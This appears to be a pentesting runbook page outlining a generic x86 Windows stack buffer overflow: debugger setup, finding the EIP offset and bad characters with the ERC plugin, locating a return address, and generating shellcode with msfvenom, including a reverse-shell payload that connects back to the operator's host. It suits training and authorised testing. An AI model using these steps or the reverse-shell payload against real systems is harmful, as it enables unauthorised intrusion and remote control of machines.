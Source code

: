 # buffer overflow x86 windows

## Step 0: Setup

- Install [x64dbg](https://github.com/x64dbg/x64dbg), the x32 version.
- Install [ERC](https://github.com/Andy53/ERC.Xdbg), also the x32 version.

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
ERC --pattern c 5000
```

- Calculate exact offset using the value of the EIP.
```shell
ERC --pattern o 1hF0
```
or automatically using
```shell
ERC --findNRP
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Generate chars string.

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP.

```shell
ERC --compare 009A19E4 C:\Users\windows\Downloads\x96dbg\x32\plugins\ByteArray_1.bin
```

## Step 3: Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Step 4: Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```
```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```

## Python

- A Python script for local buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-local.py).
- A Python script for remote buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-remote.py).
